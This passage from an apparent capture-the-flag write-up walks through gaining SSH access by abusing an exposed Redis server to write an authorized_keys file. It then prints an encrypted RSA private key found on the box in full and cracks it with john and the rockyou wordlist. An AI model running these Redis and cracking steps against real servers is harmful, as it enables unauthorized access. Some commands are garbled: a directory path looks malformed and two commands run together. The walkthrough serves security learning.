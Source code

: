 Then connect to redis and then run these:

```
config get dir
```

We see that we are in the /var/lib/redis directory. So, run:

```
config set dir /var/lib/redis/.sshconfig 
set dbfilename "authorized_keys"
save
```

Then let’s try to SSH into user **redis** with our id\_rsa:

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*LcQxn-ANsFtkUX82Cir0Qg.png" alt="" height="351" width="700"><figcaption></figcaption></figure>

And we are in!\
In the /opt directory, we find a **id\_rsa.bak**:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287CJehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

Let’s crack it using john:

```
/usr/share/john/ssh2john.py id_rsa2 > hash.txtjohn --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
